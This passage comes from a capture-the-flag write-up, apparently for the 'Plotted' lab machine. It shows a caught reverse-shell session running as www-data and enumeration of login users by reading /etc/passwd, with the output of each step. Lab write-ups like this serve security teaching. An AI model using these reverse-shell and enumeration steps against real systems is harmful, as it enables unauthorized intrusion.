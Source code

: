 <br>

![](images/plotted-tms8.png)

<br>

## System Access

I start up a listener on my system and then refresh one of the pages with the reverse shell on it:

```
connect to [<MY IP>] from (UNKNOWN) [10.10.53.170] 43342
Linux plotted 5.4.0-89-generic #100-Ubuntu SMP Fri Sep 24 14:50:10 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 02:42:10 up 10 min,  0 users,  load average: 0.01, 0.91, 0.93
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
plotted
```

<br>

## System Enumeration

Looking at which users we have on the system:

`cat /etc/passwd | grep bash`

```
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
plot_admin:x:1001:1001:,,,:/home/plot_admin:/bin/bash
```
